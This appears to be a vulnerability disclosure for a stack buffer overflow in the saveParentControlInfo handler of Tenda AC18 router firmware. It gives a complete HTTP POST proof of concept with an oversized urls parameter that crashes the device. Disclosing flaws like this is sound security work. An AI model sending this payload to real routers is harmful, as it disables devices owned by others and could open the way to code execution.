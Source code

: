 Tenda AC18 Unauthorized stack overflow vulnerability
===
1.Affected version:
---
V15.03.05.05_multi and V15.03.05.19_multi  

2.Firmware download address
---
https://www.tenda.com.cn/download/detail-2683.html  

3.Vulnerability details
---
![image](https://user-images.githubusercontent.com/104344137/183282684-b4782203-e150-4145-bb4b-bdf4f6271cba.png)
![image](https://user-images.githubusercontent.com/104344137/183282688-9f5d0db4-711e-45ec-9d62-c1ce85815871.png)  
In function saveParentControlInfo, the content obtained by the program from the urls parameter is passed to V24, and then the V24 is directly copied into the V17 + 80 stack through the strcpy function. There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.  

4.Recurring vulnerabilities and POC
---
In order to reproduce the vulnerability, the following steps can be followed:  
1.Use the fat simulation firmware V15.03.05.19_multi  
2.Attack with the following overflow POC attacks  
```
POST /goform/saveParentControlInfo HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0  
Accept: */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 143  
Origin: http://192.168.0.1  
Connection: close  
Referer: http://192.168.0.1/parental_control.html?random=0.524930998878748&  
Cookie: password=0d403f6ad9aea37a98da9255140dbf6ecmucvb

deviceId=02%3A03%3A04%3A05%3A06%3A07&deviceName=&enable=1&time=19%3A0021%3A00&url_enable=1&urls=ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss  ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss&day=1%2C1%2C1%2C1%2C1%2C1%2C1&limit_type=0
```

This PoC can result in a Dos.
